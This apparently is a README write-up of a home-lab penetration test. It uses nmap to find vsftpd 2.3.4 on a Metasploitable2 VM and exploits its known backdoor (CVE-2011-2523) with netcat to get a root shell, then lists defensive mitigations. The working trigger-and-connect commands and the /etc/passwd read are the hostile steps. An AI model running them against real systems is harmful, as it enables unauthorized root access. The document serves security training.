





# Security Home Lab: Exploiting a Vulnerable Service in an Isolated VirtualBox Network

A hands-on penetration testing exercise performed in a self-built, fully isolated virtual lab. This project walks through the full attack chain — reconnaissance, vulnerability identification, exploitation, and post-exploitation verification — against a deliberately vulnerable Linux target, along with the defensive takeaways a blue team would apply afterward.

## Lab Environment

| Component | Details |
|---|---|
| Hypervisor | Oracle VirtualBox 7.2 |
| Attacker machine | Kali Linux (2026.3), 2 GB RAM, 2 vCPUs |
| Target machine | Metasploitable2 (intentionally vulnerable Ubuntu-based VM) |
| Network | VirtualBox Host-Only Adapter, isolated from the internet and the host's LAN (`192.168.56.0/24`) |
| Attacker IP | `192.168.56.102` |
| Target IP | `192.168.56.101` |

Both VMs were configured on a host-only network so that all traffic stayed fully contained to the lab — no exposure to the internet or any production network.



## 1. Reconnaissance

### Host Discovery

Started with a ping sweep of the lab subnet to confirm which hosts were alive:

```bash
ip a
nmap -sn 192.168.56.0/24
```

This identified the gateway, the DHCP server, the attacker box (`.102`), and the target (`.101`).



### Service and Version Scanning

Ran a version-detection scan against the target to enumerate open ports and identify running services:

```bash
nmap -sV 192.168.56.101
```

**Key findings:**

| Port | Service | Version |
|---|---|---|
| 21 | FTP | **vsftpd 2.3.4** |
| 22 | SSH | OpenSSH 4.7p1 |
| 23 | Telnet | Linux telnetd |
| 25 | SMTP | Postfix |
| 80 | HTTP | Apache 2.2.8 |
| 111 | RPC | rpcbind |
| 139/445 | SMB | Samba |
| 512/513/514 | rexec/rlogin/rsh | netkit |
| 1524 | bindshell | "Metasploitable root shell" |
| 2049 | NFS | — |
| 3306 | MySQL | — |
| 5432 | PostgreSQL | — |
| 5900 | VNC | — |
| 6667 | IRC | UnrealIRCd |
| 8009/8180 | AJP/Tomcat | Coyote HTTP |



The standout finding was **vsftpd 2.3.4** on port 21 — a version with a well-documented, publicly known backdoor.

## 2. Vulnerability Identified

**vsftpd 2.3.4 Backdoor — CVE-2011-2523**

Between June and July 2011, the official vsftpd 2.3.4 source archive hosted on the project's master site was replaced by an attacker with a maliciously modified version. The backdoored code opens a root shell listener on **TCP port 6200** whenever a username containing the substring `:)` (a smiley face) is sent via the FTP `USER` command — regardless of what password follows, or whether one is sent at all.

This gives an unauthenticated attacker a direct path to a root shell, making it a critical, trivially-exploitable vulnerability.

## 3. Exploitation

Exploitation was performed manually using raw `netcat` connections rather than an automated framework module, to clearly demonstrate the underlying mechanism of the vulnerability:

**Step 1 — Trigger the backdoor:**

```bash
nc 192.168.56.101 21
```

Wait for the FTP banner (`220 (vsFTPd 2.3.4)`), then send:

```
USER backdoored :)
```

The server responds `331 Please specify the password` — this response is irrelevant; the backdoor has already been triggered server-side, opening a listener on port 6200.

**Step 2 — Connect to the backdoor shell:**

```bash
nc 192.168.56.101 6200
```

This connects directly to a **root shell with no authentication required.**



## 4. Post-Exploitation Verification

Confirmed full root-level compromise of the target:

```bash
whoami        # root
id            # uid=0(root) gid=0(root)
hostname      # metasploitable
uname -a      # Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
cat /etc/passwd | head -5
```



At this point, the attacker has unrestricted root access to the target system — able to read/write any file, create persistent backdoors, pivot to other hosts, or exfiltrate data.

## 5. Defensive Recommendations

This section translates the attack into concrete mitigations a defender/blue team would apply:

- **Patch management**: Run `vsftpd` 2.3.5 or later (or the current maintained release). This specific backdoor was removed from the official source within days of discovery in 2011 — the real-world lesson is that unpatched legacy software remains exploitable indefinitely.
- **Verify software integrity**: Validate checksums/signatures of downloaded source packages before building from source, to catch supply-chain compromises like this one.
- **Network segmentation**: Restrict FTP service exposure to only the hosts that need it; it should never be reachable from an untrusted network.
- **Disable unnecessary services**: Metasploitable2 intentionally runs a large number of outdated services (Telnet, rsh, NFS, old Samba, etc.) — in a real environment, any service not actively required should be disabled to reduce attack surface.
- **Intrusion detection**: A network IDS/IPS signature for unusual outbound connections or new listening ports (such as 6200) appearing after an FTP session would have flagged this activity.
- **Least privilege**: Services should never run as root. The underlying design flaw that made this backdoor so severe was that vsftpd was running with root privileges in the first place.
- **Monitoring and logging**: Centralized logging of FTP authentication attempts and unexpected inbound/outbound connections would allow a SOC analyst to detect this pattern (an unusual username string followed by a new listening port) in near real time.

## Tools Used

- **VirtualBox 7.2** — virtualization platform, host-only networking
- **Kali Linux** — attacker platform
- **Metasploitable2** — intentionally vulnerable target
- **Nmap** — host discovery and service/version enumeration
- **Netcat (nc)** — manual exploitation and shell interaction
- **Metasploit Framework** — used during initial exploitation attempts (module: `exploit/unix/ftp/vsftpd_234_backdoor`)

## Disclaimer

This exercise was performed entirely within an isolated, host-only virtual network against an intentionally vulnerable VM designed for security training (Metasploitable2). No systems outside this lab were accessed or tested. This project is for educational purposes to demonstrate practical penetration testing methodology.
